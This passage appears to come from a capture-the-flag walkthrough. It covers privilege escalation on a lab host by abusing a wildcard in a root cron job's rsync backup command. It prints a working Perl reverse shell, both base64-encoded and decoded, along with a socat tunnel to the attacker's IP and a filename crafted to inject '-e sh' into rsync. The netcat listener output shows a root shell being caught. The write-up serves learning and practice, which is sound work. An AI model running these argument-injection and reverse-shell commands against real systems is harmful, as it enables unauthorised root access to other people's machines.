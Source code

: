 
Looking at `/backup/backup.sh`, it is saving the database, then removing the
web folders and bringing them back in from a host named backup:

    
    
    cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
    rsync -a *.rdb rsync://backup:873/src/rdb/
    cd / && rm -rf /var/www/html/*
    rsync -a rsync://backup:873/src/backup/ /var/www/html/
    chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
    

### Exploiting the Wildcard

I can exploit the command `rsync -a *.rdb rsync://backup:873/src/rdb`,
specifically the wildcard character. Because of how Unix handles wildcards, I
can create a file named `-e sh p.rdb`, and that will evaluate to run `sh
p.rdb`. The technique is detailed
[here](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt).

I’ll first set up a tunnel on nodered:

    
    
    # /tmp/s tcp-listen:9010,fork tcp:10.10.14.14:9010 &
    

Now write a perl reverse shell into a file and create the other file to run
it. I’ll use base64 to easily move small files back and forth:

    
    
    root@kali# echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuMyI7JHA9OTAxMDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d
    perl -e 'use Socket;$i="172.19.0.3";$p=9010;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    

I’ll create my reverse shell script as `p.rdb`, and then create the file that
will call that abusing the wildcard with `touch`:

    
    
    $ echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuMyI7JHA9OTAxMDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/p.rdb
    
    $ touch /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/-e\ sh\ p.rdb
    

When the cron runs, I’ll catch a callback as root on www when the backup
script runs:

    
    
    root@kali# nc -lnvp 9010
    listening on [any] 9010 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 51920
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # hostname
    www
    